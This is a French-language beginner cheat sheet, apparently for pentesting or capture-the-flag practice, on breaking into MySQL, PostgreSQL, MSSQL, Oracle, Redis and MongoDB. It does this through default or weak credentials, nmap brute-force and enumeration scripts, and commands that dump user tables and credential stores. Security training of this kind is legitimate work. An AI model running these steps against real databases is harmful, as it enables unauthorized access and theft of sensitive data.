 # Exploitation des Bases de Données (MySQL, PostgreSQL, MSSQL, Oracle, Redis, MongoDB)

## Objectif
Exploiter des faiblesses de configuration ou des mots de passe faibles pour obtenir un accès non autorisé, exfiltrer des données ou rebondir sur d'autres systèmes.

---

## Explications vulgarisées
- Les bases de données sont souvent mal sécurisées (comptes par défaut, mots de passe faibles, accès réseau ouvert, absence de chiffrement).
- L'exploitation consiste à accéder à des données sensibles, à exécuter des commandes SQL, ou à rebondir sur d'autres systèmes via des fonctions d'exécution de code.

---

## Schéma de l'exploitation typique

Schéma textuel :
1. Reconnaissance
   ↓
2. Connexion à la base
   ↓
3. Énumération des bases, tables, utilisateurs
   ↓
4. Extraction de données sensibles
   ↓
5. Exploitation (exécution de commandes ou rebond)

---

## Commandes et étapes essentielles

### 1. Connexion avec des credentials par défaut (MySQL)
```bash
mysql -h target.com -u root -p
```
- **Astuce débutant** : Tester sans mot de passe ou avec des mots de passe faibles ("root", "admin", "password").

### 2. Enumération et extraction de données (MySQL/PostgreSQL/MSSQL)
```sql
SHOW DATABASES;
USE targetdb;
SHOW TABLES;
SELECT * FROM users;
```
- **Astuce** : Chercher des bases "test", "backup", ou des utilisateurs avec accès large.

### 3. Exploitation automatisée avec Nmap
```bash
nmap --script mysql-enum,mysql-users,mysql-databases -p 3306 target.com
nmap --script ms-sql-info,ms-sql-empty-password -p 1433 target.com
nmap --script pgsql-brute -p 5432 target.com
```
- **mysql-enum** : Enumère les bases, utilisateurs, variables.
- **ms-sql-info** : Infos sur MSSQL.
- **pgsql-brute** : Brute-force PostgreSQL.

### 4. Exploitation Oracle
```bash
sqlplus system/password@target.com:1521/XE
SELECT username FROM all_users;
SELECT * FROM dba_users;
```

### 5. Exploitation Redis
```bash
redis-cli -h target.com
keys *
get flag
```
- **Astuce** : Tester la connexion sans mot de passe, puis avec des mots de passe faibles.

### 6. Exploitation MongoDB
```bash
mongo --host target.com
show dbs
use admin
db.system.users.find()
```
- **Astuce** : Tester l'accès sans mot de passe, puis avec des mots de passe faibles.

---

## Conseils pour débutants
- Toujours tester les accès par défaut avant d'essayer des credentials complexes.
- Chercher des bases "test", "backup", ou des utilisateurs "admin", "root", "system".
- Utiliser Nmap pour automatiser la détection et l'énumération.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - Database Exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Database%20Methodology)
- [Nmap Database NSE Scripts](https://nmap.org/nsedoc/categories/database.html)
- [MongoDB Security](https://docs.mongodb.com/manual/security/) 